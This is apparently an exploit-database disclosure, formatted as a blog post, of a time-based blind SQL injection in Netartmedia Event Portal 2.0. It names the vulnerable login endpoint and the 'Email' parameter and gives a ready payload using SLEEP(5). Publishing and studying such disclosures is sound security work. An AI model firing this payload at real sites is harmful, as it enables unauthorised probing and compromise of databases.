 ```yaml
---
layout:     post
title:      "Netartmedia Event Portal 2.0 - 'Email' SQL Injection"
date:       2019-03-19 12:35
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Netartmedia Event Portal 2.0 - 'Email' SQL Injection
# Date: 19.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.netartmedia.net/eventportal/
# Demo Site: https://www.phpscriptdemos.com/events/
# Version: 2.0
# Tested on: Kali Linux
# CVE: N/A
# Description: Event Portal is a a web software (php script), that can be
used to create advanced and multi-user event listing and ticket selling
websites.

----- PoC: SQLi (time-based blind) -----
# POST Request: http://localhost/[PATH]/loginaction.php
# Vulnerable Parameter: Email
# Payload: '||(SELECT 0x59685353 FROM DUAL WHERE 7114=7114 AND SLEEP(5))||'
